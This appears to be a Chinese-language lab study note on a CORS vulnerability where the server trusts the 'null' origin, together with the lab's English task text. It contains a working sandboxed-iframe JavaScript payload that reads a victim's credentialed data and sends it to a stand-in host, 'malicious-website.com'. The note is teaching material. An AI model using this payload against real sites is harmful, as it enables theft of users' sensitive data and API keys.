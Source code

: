 ```
浏览器可能会发送该值null在各种异常情况下的原始标题中：
    跨源重定向。
    来自序列化数据的请求。
    使用 file:协议请求。
    沙盒跨来源请求。
```

某些应用程序可能会将null支持应用程序的本地开发

```
例如，假设应用程序接收到以下跨来源请求：
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
 
并且服务器响应如下：
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

在这种情况下，攻击者可以使用各种技巧生成包含该值的跨源请求null在原始标题中。这将满足白名单，从而实现跨域访问

```
例如，这可以使用沙箱来完成 内嵌框架跨来源申请表格：
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();
function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

### 题目

实验2：具有可信空源的CORS漏洞

```
信息：

1、此网站具有不安全的CORS配置，因为它信任"空"源。

2、解决实验：编制JavaScript，使用CORS检索管理员的API密钥并将代码上载到漏洞利用服务器。并提交api Key

3、已有账号：wiener:peter
```

```
Lab: CORS vulnerability with trusted null origin
APPRENTICE

This website has an insecure CORS configuration in that it trusts the "null" origin.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter
```

